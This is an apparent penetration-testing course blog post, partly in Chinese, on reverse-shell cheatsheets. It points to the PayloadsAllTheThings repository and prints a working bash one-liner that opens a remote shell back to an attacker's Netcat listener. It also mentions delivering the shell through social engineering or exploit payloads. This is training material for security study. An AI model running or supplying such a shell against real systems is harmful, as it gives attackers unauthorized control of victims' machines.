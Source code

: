 ```yaml
---
layout: post
title: "Reverse Shell Cheatsheet"
date: "2023-04-21"
author: "r3kind1e"
header-img: "img/post-bg-Penetration Testing Student.png"
catalog:    true
tags: 
    - Penetration Testing Student v2
    - Host & Network Penetration Testing
    - Exploitation
---
```


# Reverse Shell Cheatsheet（反向 Shell 速查表）
# Demo: Reverse Shell Cheatsheet（演示：反向 Shell 备忘单）
I'll be taking you through various resources that you can use, more specifically, cheatsheets that you can use to obtain code that can be executed on the target system to connect back to a Netcat listener.

One of the great things about reverse shells is that you do not need to have Netcat listener on the target system. The connection to the Netcat listener on the attacker system can be made through the use of PowerShell code. You can do it with simple bash code or just Python code, C code. You can also generate executables that will connect to that particular listener and provide you with a reverse shell. And you don't need to rely on Netcat to initiate the connection.

Kali Linux: 10.10.10.10

Windows 7: 10.10.10.7

Reverse Shell Cheatsheet that contains a list of commands or code that can be used to connect back to a Netcat listener after being executed on the target system.

[swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)

[Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

And in terms of the target system, there are various cheatsheets are based on the target operating system.

For example, if the target operating system is Linux, you can click on Bash TCP.

```
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
```

All you need to do is execute this code here on the target system. And this code can be executed manually by physically accessing the system or through social engineering. This can be embedded into a payload. And in most cases, this code is typically included as part of exploit code. So once a vulnerability has been exploited, the following code is executed on the target system. And then, it's executed, and then the connection is made back to the attacker system or to the Netcat listener on the attacker system.
